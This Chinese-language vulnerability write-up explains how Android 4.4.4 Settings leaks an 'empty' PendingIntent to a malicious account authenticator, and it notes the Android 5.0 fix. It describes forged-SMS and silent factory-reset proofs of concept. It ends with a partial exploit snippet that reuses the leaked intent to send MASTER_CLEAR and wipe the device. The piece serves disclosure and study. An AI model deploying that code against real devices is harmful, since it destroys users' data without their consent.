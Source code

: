 所以大多数情况下，PendingIntent 的安全风险主要发生在下面两个条件同时满足的场景下：

1.  构造 PendingIntent 时的原始 Intent 既没有指定 Component，也没有指定 action
2.  将 PendingIntent 泄露给第三方

原因是，如果原始 Intent 的 Component 与 action 都为空（“双无”Intent），B 就可以通过修改 action 来将 Intent 发送向那些声明了 intent filter 的组件，如果 A 是一个有高权限的 APP（如 settings 就具有 SYSTEM 权限），B 就可以以 A 的身份做很多事情。

当然上面描述的是大多数情况。一些极端的情况下，比如某些情况下 B 虽然无法修改 action 将 Intent 发送到其他组件，但依然可以放入额外的数据，如果该组件本身接收数据时未考虑周全，也是存在风险的。

## 0x02 Settings 中的 PendingIntent 漏洞

* * *

如果你阅读过 retme 关于 launchAnywhere 的分析【1】，就会了解 Settings 的 addAccount 机制：一个恶意 APP 可以注册一种独有的账号类型并成为该类型账号的认证者（Authenticator），通过发送 Intent 来促使 Settings 添加该类型账号时，Settings 将调用恶意 APP 提供的接口。而这个过程，就不幸将一个“双无”PendingIntent 发给了恶意 APP。

看看安卓 4.4.4 的 Settings 中有漏洞的源码：可见一个 mPendingIntent 是通过 new Intent()构造原始 Intent 的，所以为“双无”Intent，这个 PendingIntent 最终被通过 AccountManager.addAccount 方法传递给了恶意 APP 接口：

![enter image description here](img/img3_u79_png.jpg)

在 Android 5.0 的源码中，修复方法是设置了一个虚构的 Action 与 Component https://android.googlesource.com/platform/packages/apps/Settings/+/37b58a4%5E%21/#F0

![enter image description here](img/img4_u56_png.jpg)

最初报告这个漏洞给 Android 时，用的伪造短信的 POC，也是 retme 博客中演示的。例如可以伪造 10086 发送的短信，这与收到正常短信的表象完全一致（并非有些 APP 申请了 WRITE_SMS 权限后直接写短信数据库时无接收提示）。后来又更新了一个 Factory Reset 的 POC，可以强制无任何提示将用户手机恢复到出厂设置，清空短信与通信录等用户数据，恶意 APP 的接口代码片段如下：

```
@Override
public Bundle addAccount(AccountAuthenticatorResponse response, String accountType, String authTokenType, String[] requiredFeatures, Bundle options) throws NetworkErrorException {
//这里通过 getParcelable(“pendingintent”)就获得了 settings 传过来的“双无”PendingIntent：

  PendingIntent test = (PendingIntent)options.getParcelable("pendingIntent"); 

  Intent newIntent2 = new Intent("android.intent.action.MASTER_CLEAR");
  try {
            test.send(mContext, 0, newIntent2, null, null);
  } catch (CanceledException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
  }
```